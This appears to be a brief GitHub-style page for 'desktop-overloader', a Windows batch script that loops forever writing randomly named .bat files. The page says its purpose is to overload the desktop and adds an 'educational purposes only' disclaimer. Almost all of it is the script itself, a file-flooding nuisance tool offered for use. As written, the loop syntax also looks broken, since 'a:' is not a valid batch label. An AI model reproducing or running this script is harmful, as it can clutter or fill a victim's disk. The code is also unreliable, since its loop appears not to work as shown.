 # desktop-overloader
# Creates files that create files that are saved to your windows computers desktop using batch files. NOTE: THIS CAN BE DANGEROUS AND SHOULD ONLY BE USED FOR EDUCATIONAL PURPOSES ONLY.
@echo off
a:
echo start bat.bat > %random%.bat
goto a:
